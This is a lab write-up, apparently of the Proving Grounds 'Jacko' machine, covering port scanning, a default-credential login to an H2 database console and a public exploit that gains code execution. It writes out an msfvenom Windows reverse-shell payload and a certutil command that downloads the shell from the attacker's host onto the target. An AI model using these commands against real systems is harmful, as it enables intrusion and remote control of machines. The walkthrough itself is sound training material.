Nmap scan
```sh
 nmap -p- --min-rate 500 -T4 -Pn 192.168.141.66
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-17 21:21 IST
Nmap scan report for 192.168.141.66
Host is up (0.062s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8082/tcp  open  blackice-alerts
9092/tcp  open  XmlIpcRegSvc
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 91.64 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 80,135,139,445,5040,7680,8082,9092,49664,49665,49666,49667,49668,49669 192.168.141.66
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-17 21:27 IST
Stats: 0:01:55 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 92.31% done; ETC: 21:29 (0:00:10 remaining)
Stats: 0:02:46 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.18% done; ETC: 21:29 (0:00:00 remaining)
Nmap scan report for 192.168.141.66
Host is up (0.13s latency).

PORT      STATE  SERVICE       VERSION
80/tcp    open   http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: H2 Database Engine (redirect)
135/tcp   open   msrpc         Microsoft Windows RPC
139/tcp   open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open   microsoft-ds?
5040/tcp  open   unknown
7680/tcp  closed pando-pub
8082/tcp  open   http          H2 database http console
|_http-title: H2 Console
9092/tcp  open   XmlIpcRegSvc?
49664/tcp open   msrpc         Microsoft Windows RPC
49665/tcp open   msrpc         Microsoft Windows RPC
49666/tcp open   msrpc         Microsoft Windows RPC
49667/tcp open   msrpc         Microsoft Windows RPC
49668/tcp open   msrpc         Microsoft Windows RPC
49669/tcp open   msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9092-TCP:V=7.95%I=7%D=3/17%Time=69B979D3%P=x86_64-pc-linux-gnu%r(NU
SF:LL,516,"\0\0\0\0\0\0\0\x05\x009\x000\x001\x001\x007\0\0\0F\0R\0e\0m\0o\
SF:0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\0t\0o\0\x20\0t\0h\0i
SF:\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n\0o\0t\0\x20\0a\0l\0
SF:l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0A\0l\0l\0o\0w\0O\0t\
SF:0h\0e\0r\0s\xff\xff\xff\xff\0\x01`\x05\0\0\x024\0o\0r\0g\0\.\0h\x002\0\
SF:.\0j\0d\0b\0c\0\.\0J\0d\0b\0c\0S\0Q\0L\0N\0o\0n\0T\0r\0a\0n\0s\0i\0e\0n
SF:\0t\0C\0o\0n\0n\0e\0c\0t\0i\0o\0n\0E\0x\0c\0e\0p\0t\0i\0o\0n\0:\0\x20\0
SF:R\0e\0m\0o\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\0t\0o\0\x
SF:20\0t\0h\0i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n\0o\0t\0\
SF:x20\0a\0l\0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0A\0l\0l\0
SF:o\0w\0O\0t\0h\0e\0r\0s\0\x20\0\[\x009\x000\x001\x001\x007\0-\x001\x009\
SF:x009\0\]\0\r\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0
SF:a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0J\0d\0b\0c\0
SF:S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n
SF:\0\.\0j\0a\0v\0a\0:\x006\x001\x007\0\)\0\r\0\n\0\t\0a\0t\0\x20\0o\0r\0g
SF:\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o
SF:\0n\0\.\0g\0e\0t\0J\0d\0b\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\(\0D
SF:\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x004\x002\x007\0\)\0\
SF:r\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.
SF:\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p
SF:\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x002\x000\x005\0\)\0\r\0\n\0\t\0a\0t\0\
SF:x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b")%r(informi
SF:x,516,"\0\0\0\0\0\0\0\x05\x009\x000\x001\x001\x007\0\0\0F\0R\0e\0m\0o\0
SF:t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\0t\0o\0\x20\0t\0h\0i\
SF:0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n\0o\0t\0\x20\0a\0l\0l
SF:\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0A\0l\0l\0o\0w\0O\0t\0
SF:h\0e\0r\0s\xff\xff\xff\xff\0\x01`\x05\0\0\x024\0o\0r\0g\0\.\0h\x002\0\.
SF:\0j\0d\0b\0c\0\.\0J\0d\0b\0c\0S\0Q\0L\0N\0o\0n\0T\0r\0a\0n\0s\0i\0e\0n\
SF:0t\0C\0o\0n\0n\0e\0c\0t\0i\0o\0n\0E\0x\0c\0e\0p\0t\0i\0o\0n\0:\0\x20\0R
SF:\0e\0m\0o\0t\0e\0\x20\0c\0o\0n\0n\0e\0c\0t\0i\0o\0n\0s\0\x20\0t\0o\0\x2
SF:0\0t\0h\0i\0s\0\x20\0s\0e\0r\0v\0e\0r\0\x20\0a\0r\0e\0\x20\0n\0o\0t\0\x
SF:20\0a\0l\0l\0o\0w\0e\0d\0,\0\x20\0s\0e\0e\0\x20\0-\0t\0c\0p\0A\0l\0l\0o
SF:\0w\0O\0t\0h\0e\0r\0s\0\x20\0\[\x009\x000\x001\x001\x007\0-\x001\x009\x
SF:009\0\]\0\r\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a
SF:\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0J\0d\0b\0c\0S
SF:\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\(\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\
SF:0\.\0j\0a\0v\0a\0:\x006\x001\x007\0\)\0\r\0\n\0\t\0a\0t\0\x20\0o\0r\0g\
SF:0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\
SF:0n\0\.\0g\0e\0t\0J\0d\0b\0c\0S\0Q\0L\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\(\0D\
SF:0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x004\x002\x007\0\)\0\r
SF:\0\n\0\t\0a\0t\0\x20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\
SF:0D\0b\0E\0x\0c\0e\0p\0t\0i\0o\0n\0\.\0g\0e\0t\0\(\0D\0b\0E\0x\0c\0e\0p\
SF:0t\0i\0o\0n\0\.\0j\0a\0v\0a\0:\x002\x000\x005\0\)\0\r\0\n\0\t\0a\0t\0\x
SF:20\0o\0r\0g\0\.\0h\x002\0\.\0m\0e\0s\0s\0a\0g\0e\0\.\0D\0b");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2026-03-17T15:59:49
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 178.67 seconds
```

Visiting web server on port 80.

This looks like the type of welcome message that the administrator is greeted with upon installation. 
Since an HTTP service was active, I decided to focus on **port 8082** first.

Upon accessing port 8082, it displayed the **H2 Database Console login page**.

I clicked the **“Test Connection”** button, and the result was “Test successful,” which indicated that the connection could be established using the default username **“sa”** with no password.

I then clicked the **“Connect”** button using the same credentials (`sa` with no password), and it successfully granted access to the **SQL Console** — allowing me to execute SQL queries directly on the database.

Sure enough, we get right it. I notice the version information immediately. Besides the database being laid wide open to view, the words run and script catch my eye. This has got to be the way. Now I just have to learn how.

I’m going to shop that version information around Searchsploit and Google followed by the word ‘exploit’.

Exploit used: https://www.exploit-db.com/exploits/49384

Both methods lead to the same place.

I’m going to mirror it to my directory from Searchsploit.

Let’s look at it:

This is going to take three steps. The first step is to “load a a Java class without needing to use the Java Compiler”. Paste the large nearly unwieldy character code block into the SQL statement box and run it. This Medium document would not save with it without errors, so I included a picture of it here.


Copy and paste from below lines:



Next ‘Clear’ the statement field and “Load native library” by pasting and running this:



We see only blue text and no errors indicating a successful execution.

Finally we have environment setup, now we can get code execution, let’s test it first with the ‘whoami’ command. Clear the SQL Statement field to paste in our test payload. Normally I would paste this below, but this Medium Article page keeps erroring when I try…this is from the Proof of Concept code in the exploit.



We get the response we are looking for — successful Code Execution. Now we’re ready for a reverse shell.

We need a good payload. Msfvenom to the rescue!

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.199 LPORT=4444 -f exe > shell.exe
```



This we will do in two parts, get the payload on the machine and then execute it. To get the payload onto the machine I am going to host it with a python web server.

```sh
python3 -m http.server 80
```

We will place our shell.exe file in the known user’s home directory (the backslashes have to be escaped). Replace the “whoami” code with file transfer code like this:
```sh
"certutil -split -urlcache -f http://192.168.45.199/shell.exe C:\\Users\\tony\\shell.exe"
```

Be aware that the section from our ‘whoami-test’ that starts with “CREATE ALIAS…” is no longer needed. The ALIAS has been created. Start all of the New SQL statements with CALL as show below.





Now that we have our shell on the victim machine, we set up a listener.

Finally, change file transfer section of the code to execute the payload from it’s location. (The backslashes need to be escaped again)

```sh
"C:\\Users\\tony\\shell.exe"
```



No errors is good! Check you listener.



I’m a little concerned that whoami only works from it’s home location. For some unknown reason it is not in the PATH.



Captured local flag.

https://medium.com/@Dpsypher/proving-grounds-practice-jacko-d42c9c1e7f9e
https://banua.medium.com/proving-grounds-jacko-oscp-prep-2025-practice-12-5e16c080e9cf
